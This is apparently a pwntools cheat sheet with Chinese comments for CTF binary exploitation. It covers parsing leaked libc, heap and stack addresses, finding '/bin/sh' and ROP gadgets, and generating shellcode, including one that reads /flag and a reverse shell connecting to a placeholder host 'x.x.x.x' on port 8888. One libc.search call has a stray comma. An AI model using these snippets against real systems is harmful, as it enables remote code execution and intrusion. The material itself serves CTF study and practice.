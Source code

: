 ```Python
io.sendlineafter(b"xx", input_something)

#取返回值（地址）的方法，输入以 "a"结尾
p.recvuntil(b"0x")
address = int(p.recvuntil(b"a", drop=True), 16)
# 直接接受0xabc, False不接收\n
addr = int(p.recvline(False), 16)
#64位中获取地址
u64(p.recv(6).ljust(8, "\x00"))
addr = u64(io.recv(8)) - 10
# 自使用获取栈地址stack addr 0x10需自调整
addr = io.recvuntil(',')[:-1]
ebp_addr = int("0x" + str(addr[::-1].hex()), 16) - 0x10
libc.addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00')) - offset
heap_base = u64(p.recvuntil(('\x55', '\x56'))[-6:].ljust(8, '\x00'))&~0xFFF

# 32位
u32(p.recvuntil("\xf7")[-4:].ljust(4, "\x00"))
# 64位
u64(p.recvuntil("\x7f")[-6:].ljust(8, "\x00"))
# printf %s, %p 不需小端序转换
int(p.recvline()[:-1], 16)

leak_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(leak_addr))
success("libcBase -> {:#x}".format(libcBase)) # x表示转化为16进制 打印

# 快捷填充垃圾数据
cyclic(0x10)
# p64(8)： 0x0000000000000008
# `\x00` 为一字节

bin_sh = libc_base_addr + libc.search(b'/bin/sh', , executable=True).__next__()
pop_rdi = libc_base_addr + libc.search(asm('pop rdi;ret;')).__next__()

io.interactive()
```

**shellcode 模块**

```Python
context.arch = "amd64"

print(asm(shellcraft.sh())) 		# shellcode汇编代码直接转化为机器码 32位机器shellcode
print(asm(shellcraft.amd64.sh())) 	# 64位机器的shellcode

shellcode = asm(pwnlib.shellcraft.amd64.linux.cat2("/flag", 1, 0x30))#读取/flag，输出到标准输出
shellcode = asm(pwnlib.shellcraft.amd64.linux.socket("ipv4", "tcp") +\
                pwnlib.shellcraft.amd64.linux.connect("x.x.x.x", 8888, 'ipv4')+\
                pwnlib.shellcraft.amd64.linux.dupsh('rax'))
                #反弹shell

asm(shellcraft.sh()).ljust(100, b'A') #ljust在shellcode基础上左对齐，后面补充A直到100个

```
